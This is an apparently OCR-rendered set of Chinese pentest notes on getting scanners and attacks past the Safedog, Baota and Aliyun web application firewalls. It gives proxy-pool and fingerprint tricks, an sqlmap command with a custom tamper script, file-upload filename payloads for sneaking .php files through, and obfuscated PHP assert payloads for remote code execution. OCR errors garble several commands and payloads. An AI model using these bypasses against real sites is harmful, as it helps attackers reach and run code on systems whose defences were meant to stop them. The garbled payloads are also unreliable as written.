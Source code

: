 ## 漏洞发现触发WAF点-针对xray, awvs等

1.扫描速度- (代理池，延迟，白名单等)
2.工具指纹- (特征修改，伪造模拟真实用户等)
3.漏洞Payload- (数据变异,数据加密，白名单等)

代理池Proxy_ _pool项 目搭建及使用解释
充钱代理池直接干safedog+BT+Aliyun探针
Safedog-awvs漏扫注入测试绕过延时，白名单
Aliyun_ _os(云盾)-awvs漏扫注入测试绕过-延时白名单
BT(baota)-awvs+xray漏扫Payload绕过延时被动
充钱代理池直接干Safedog+BT+AliyunOS漏洞发现

## SQI注入

如需sq1map注入修改us头及加入代理防cc拦截自写tamper模块
安全狗:参考之前payload
Aliyun:基本修改指纹即可
宝塔:匹配关键字外加/+等

```
sq1map --proxy="http://127.0.0.1:8080" --tamper="waf.py" --random-agent
```

## 文件上传

1.php截断参考前面上传wa f绕过payload

```
#Payload:
不量垃圾数据缓冲溢出(Content-Disposition, filename等)
filename=x-php
filenane="x. php
filename='x.php
filanane="a.jpg; .php";
filename="a.php80D.jpg"
filename="Consent- -Diaposition: form-data;
name="upload_ ile" ;x.php" 
filename="x. aPg"; filename="x.jpg"; ... . .filename="x.php";
filename="xxx/x-jpg" 
filename=
"
x
.
p
h
p
"

```



## Xss跨站

利用xsstrike绕过加上--timeout或--proxy绕过cc

## 其他集合

RCE:
加密加码绕过?算法可逆?关键字绕过?提交方法?各种测试!

```
txt=$y=str_replace('x','','pxhpxinxfo()') ;assert($y);&submit=8E688F8908E48BA8A4   //拼接，替换

txt=$x='asse';$xx=$REQUEST['x']$xx=$x.$xx;$y=str_replace('x',"'pxhpxinxfo0);$xx($y);&submit=96E6%8F%90%E4%BA%A4


txt=$hex='706870696e666f28293b jassert(pack("H*". $hex));&usubmit=9E6%8F%90%6E4%BA9%A4	//16进制
```

文件包含:没什么好说的就这几种

```
..\   ..../   ..\.\ 等
```

